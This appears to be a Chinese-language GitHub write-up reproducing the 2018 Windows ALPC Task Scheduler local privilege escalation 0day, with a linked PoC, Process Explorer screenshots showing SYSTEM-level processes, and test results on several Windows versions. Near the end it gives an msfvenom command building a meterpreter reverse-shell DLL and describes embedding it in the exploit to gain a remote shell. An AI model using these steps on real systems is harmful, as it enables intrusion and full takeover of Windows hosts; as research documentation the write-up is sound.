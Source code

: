 # ALPC bug 0day

https://github.com/SandboxEscaper/randomrepo/blob/master/PoCLPE.rar

https://www.theregister.co.uk/2018/08/28/windows_0day_pops_up_out_of_span_classstrikenowherespan_twitter/

## 用法
@sandboxescaper8月28号在推特上发布了Windows的本地版权0day，然后被很快的撤回。PoC在Github上。然后我验证了一下是不是真的，确实如此。

- 以管理员身份打开Process Explorer - 右键单击​​“以管理员身份运行”


```
https://docs.microsoft.com/en-us/sysinternals/downloads/process-explorer
```
- 作为普通用户，启动记事本。如果从cmd打开它，则会在cmd中获得一个子进程。此进程使用启动它的用户上下文运行。

- PID是3872

![](https://raw.githubusercontent.com/evilwing/wing-images/master/img/20181115161058.png)

- 如果需要在Process Explorer中查看用户名和完整性级别，可以转到`查看` - >`选择列`并进行检查.

![](https://raw.githubusercontent.com/evilwing/wing-images/master/img/20181115161209.png)
现在，看一下spoolsv.exe进程。

![](https://raw.githubusercontent.com/evilwing/wing-images/master/img/20181115161500.png)


使用之前产生的`PID 3872`

![](https://raw.githubusercontent.com/evilwing/wing-images/master/img/20181115162827.png)

再次在Process Explorer中查看spoolsv
![](https://raw.githubusercontent.com/evilwing/wing-images/master/img/20181115162855.png)

Bham！conhost和notepad的子进程cmd.exe是SYSTEM权限！

## windows10运行成功

在Windows 10 1803上确认0day priv esc.MS尚未发布补丁（28.08.2018）


![](https://raw.githubusercontent.com/evilwing/wing-images/master/img/20181116152129.png)

可能会打开一个实际的system权限的cmd窗口

@plaintextg跟我在`session 0`中产生了进程，这就是为什么用户看不到会话1中的操作。如果在ProcExplorer的面板中切换Session，你可以非常清楚地看到：

![](https://raw.githubusercontent.com/evilwing/wing-images/master/img/20181116152335.png)
## Windows Server 2016 测试成功
![](https://raw.githubusercontent.com/evilwing/wing-images/master/img/20181116152411.png)

## windows7 测试失败
![](https://raw.githubusercontent.com/evilwing/wing-images/master/img/20181116152514.png)

## 自动化攻击？
阅读完源代码后，记事本是从添加的资源中启动的。这可以在源代码的101-105行看到。exploit.dll

```
//Payload is included as a resource, you need to modify this resource accordingly.
HRSRC myResource = ::FindResource(mod, MAKEINTRESOURCE(IDR_RCDATA1), RT_RCDATA);
unsigned int myResourceSize = ::SizeofResource(mod, myResource);
HGLOBAL myResourceData = ::LoadResource(mod, myResource);
void* pMyBinaryData = ::LockResource(myResourceData);
```

点击那个，我们可以看到这个exploit.dll在PoC中产生记事本无法读取，因为没有在绝对路径中。

![](https://raw.githubusercontent.com/evilwing/wing-images/master/img/20181116152634.png)

因此，我没有重新编译和修复visual studio的500个错误，而是决定使用[CFF Explorer ](https://ntcore.com/?page_id=388) 直接替换dll作为资源更容易。这样干之前，必须准备好payload。


```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=10.0.0.16 lport=444 -f dll -o lol.dll
```
在CFF Explorer中选择Replace Resource（raw）。然后将`lol.dllALPC-TaskSched-LPE.dll `另存为新文件。整个漏洞利用现已嵌入到dll文件中.

![](https://raw.githubusercontent.com/evilwing/wing-images/master/img/20181116153156.png)

所以我们再次触发漏洞，等shell弹回来。

getshell！

![](https://raw.githubusercontent.com/evilwing/wing-images/master/img/20181116153412.png)





